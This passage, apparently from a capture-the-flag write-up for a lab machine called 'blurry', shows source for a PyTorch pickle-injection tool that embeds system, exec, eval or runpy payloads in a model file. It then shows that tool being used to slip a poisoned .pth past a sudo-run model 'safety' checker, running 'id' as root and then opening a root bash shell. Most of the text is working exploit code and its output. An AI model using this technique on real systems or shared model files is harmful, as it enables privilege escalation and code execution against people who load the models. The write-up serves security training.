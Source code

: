 ```

parser = argparse.ArgumentParser(description="PyTorch Pickle Inject")
parser.add_argument("model", type=Path)
parser.add_argument("command", choices=["system", "exec", "eval", "runpy"])
parser.add_argument("args")
parser.add_argument("-v", "--verbose", help="verbose logging", action="count")

args = parser.parse_args()

command_args = args.args

# If the command arg is a path, read the file contents
if os.path.isfile(command_args):
    with open(command_args, "r") as in_file:
        command_args = in_file.read()

# Construct payload
if args.command == "system":
    payload = PickleInject.System(command_args)
elif args.command == "exec":
    payload = PickleInject.Exec(command_args)
elif args.command == "eval":
    payload = PickleInject.Eval(command_args)
elif args.command == "runpy":
    payload = PickleInject.RunPy(command_args)

# Backup the model
backup_path = "{}.bak".format(args.model)
shutil.copyfile(args.model, backup_path)

# Save the model with the injected payload
torch.save(torch.load(args.model), f=args.model, pickle_module=PickleInject([payload]))
```

So let's exploit it
```
jippity@blurry:/tmp$ python3 torch_pickle_inject.py evil.pth runpy "import os; os.system('id')"

jippity@blurry:/models$ cp /tmp/evil.pth ./

jippity@blurry:/models$ sudo /usr/bin/evaluate_model /models/evil.pth 
[+] Model /models/evil.pth is considered safe. Processing...
uid=0(root) gid=0(root) groups=0(root)
[+] Loaded Model.
[+] Dataloader ready. Evaluating model...
[+] Accuracy of the model on the test dataset: 59.38%

```

We can also try to get the bash 
```
jippity@blurry:/models$ cp demo_model.pth /tmp
jippity@blurry:/models$ mv /tmp/demo_model.pth /tmp/shell.pth
jippity@blurry:/models$ python3 /tmp/torch_pickle_inject.py /tmp/shell.pth system "bash"
jippity@blurry:/models$ cp /tmp/shell.pth ./
jippity@blurry:/models$ sudo /usr/bin/evaluate_model /models/shell.pth 
[+] Model /models/shell.pth is considered safe. Processing...
root@blurry:/models# whoami
root
root@blurry:/models# 

```

